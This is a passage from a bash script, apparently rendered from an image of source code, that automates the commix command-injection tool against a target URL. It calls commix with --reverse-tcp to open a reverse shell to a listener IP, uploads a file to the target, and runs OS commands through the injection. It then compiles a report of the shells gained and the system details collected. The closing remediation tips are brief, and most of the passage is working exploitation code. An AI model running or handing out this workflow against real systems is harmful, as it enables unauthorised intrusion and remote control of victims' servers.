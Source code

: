```bash
  run_commix "Reverse Shell" "python3 /usr/bin/commix -u \"$VULNERABLE_URL\" --reverse-tcp $LISTEN_IP $LISTEN_PORT --batch --techniques=$TECHNIQUE --output-dir=$OUTPUT_DIR"
fi

# Phase 5: File Operations (if desired)
echo "[+] Would you like to test file operations? (y/n)"
read -p "> " FILE_OPS

if [[ "$FILE_OPS" == "y" || "$FILE_OPS" == "Y" ]]; then
  echo "[*] Creating a test file to upload"
  echo "This is a test file created by commix_comprehensive.sh" > "$OUTPUT_DIR/test_upload.txt"
  
  echo "[*] Attempting to upload test file"
  run_commix "File Upload" "python3 /usr/bin/commix -u \"$VULNERABLE_URL\" --file-upload=\"$OUTPUT_DIR/test_upload.txt\" --file-dest=\"/tmp/test_upload.txt\" --batch --techniques=$TECHNIQUE --output-dir=$OUTPUT_DIR"
  
  echo "[*] Verifying uploaded file"
  run_commix "File Verification" "python3 /usr/bin/commix -u \"$VULNERABLE_URL\" --os-cmd=\"cat /tmp/test_upload.txt\" --batch --techniques=$TECHNIQUE --output-dir=$OUTPUT_DIR"
fi

# Summary report
echo "[+] Creating summary report"
{
  echo "Command Injection Assessment Summary"
  echo "===================================="
  echo ""
  echo "Target URL: $TARGET_URL"
  echo "Date: $(date)"
  echo ""
  echo "Vulnerability Status:"
  if grep -q "Payload: " "$OUTPUT_DIR"/*.txt; then
    echo "✓ Command injection vulnerability confirmed"
    echo "  - Technique: $TECHNIQUE"
    echo "  - Working payload: $PAYLOAD"
  else
    echo "✗ No command injection vulnerability definitively confirmed"
  fi
  echo ""
  echo "Environment Information:"
  echo "- OS: $(grep -A 3 "uname -a" "$OUTPUT_DIR/OS_Information.txt" | tail -n 1)"
  echo "- User: $(grep -A 3 "id" "$OUTPUT_DIR/User_Information.txt" | tail -n 1)"
  echo "- Directory: $(grep -A 3 "pwd" "$OUTPUT_DIR/Directory_Information.txt" | tail -n 1)"
  echo ""
  echo "Exploitation Results:"
  if [[ -f "$OUTPUT_DIR/Interactive_Shell.txt" ]]; then
    echo "✓ Interactive shell session established"
  fi
  if [[ -f "$OUTPUT_DIR/Reverse_Shell.txt" ]]; then
    echo "✓ Reverse shell attempt made"
  fi
  if [[ -f "$OUTPUT_DIR/File_Upload.txt" ]]; then
    if grep -q "successfully uploaded" "$OUTPUT_DIR/File_Upload.txt"; then
      echo "✓ File upload successful"
    else
      echo "✗ File upload failed"
    fi
  fi
  echo ""
  echo "Recommendations:"
  echo "1. Implement proper input validation and sanitization"
  echo "2. Use parameterized commands instead of direct command execution"
```